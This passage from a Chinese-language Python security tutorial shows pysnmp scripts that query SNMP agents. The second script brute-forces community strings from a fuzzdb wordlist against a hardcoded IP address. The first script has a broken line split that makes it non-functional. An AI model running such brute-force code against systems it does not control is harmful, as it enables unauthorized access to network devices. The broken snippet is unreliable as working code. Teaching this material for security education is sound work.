 如果我们尝试执行先前的脚本，我们会看到已注册的 SNMP 代理的公共数据：

![](img/1c0ec4d8-545b-4dc6-aef6-d0b856801159.png)

你可以在文件名为`snmp_example3.py`中找到以下代码：

```py
from pysnmp.entity.rfc3413.oneliner import cmdgen

SNMP_HOST = '182.16.190.78'
SNMP_PORT = 161
SNMP_COMMUNITY = 'public'

snmpCmdGen = cmdgen.CommandGenerator()
snmpTransportData = cmdgen.UdpTransportTarget((SNMP_HOST ,SNMP_PORT ))

error,errorStatus,errorIndex,binds = snmpCmdGen
getCmd(cmdgen.CommunityData(SNMP_COMMUNITY),snmpTransportData,"1.3.6.1.2.1.1.1.0","1.3.6.1.2.1.1.3.0","1.3.6.1.2.1.2.1.0")

if error:
    print("Error"+error)
else:
    if errorStatus:
        print('%s at %s' %(errorStatus.prettyPrint(),errorIndex and  binds[int(errorIndex)-1] or '?'))
    else:
        for name,val in binds:
            print('%s = %s' % (name.prettyPrint(),val.prettyPrint()))
```

如果我们尝试执行先前的脚本，我们会看到已注册的 SNMP 代理的公共数据：

![](img/bcc8af0d-d614-4382-9daa-89e59139e964.png)

在这个例子中，我们尝试为特定的 SNMP 服务器查找 community。为此任务，我们首先从 fuzzdb 获取包含可用 community 列表的文件`wordlist-common-snmp-community-strings.txt`：

[`github.com/fuzzdb-project/fuzzdb/blob/master/wordlists-misc/wordlist-common-snmp-community-strings.txt`](https://github.com/fuzzdb-project/fuzzdb/blob/master/wordlists-misc/wordlist-common-snmp-community-strings.txt)

你可以在文件名为`snmp_brute_force.py`中找到以下代码：

```py
from pysnmp.entity.rfc3413.oneliner import cmdgen

SNMP_HOST = '182.16.190.78'
SNMP_PORT = 161

cmdGen = cmdgen.CommandGenerator()
fd = open("wordlist-common-snmp-community-strings.txt")
for community in fd.readlines():
    snmpCmdGen = cmdgen.CommandGenerator()
    snmpTransportData = cmdgen.UdpTransportTarget((SNMP_HOST, SNMP_PORT),timeout=1.5,retries=0)

    error, errorStatus, errorIndex, binds = snmpCmdGen.getCmd(cmdgen.CommunityData(community), snmpTransportData, "1.3.6.1.2.1.1.1.0", "1.3.6.1.2.1.1.3.0", "1.3.6.1.2.1.2.1.0")
    # Check for errors and print out results
    if error:
        print(str(error)+" For community: %s " %(community))
    else:
        print("Community Found '%s' ... exiting." %(community))
        break
```
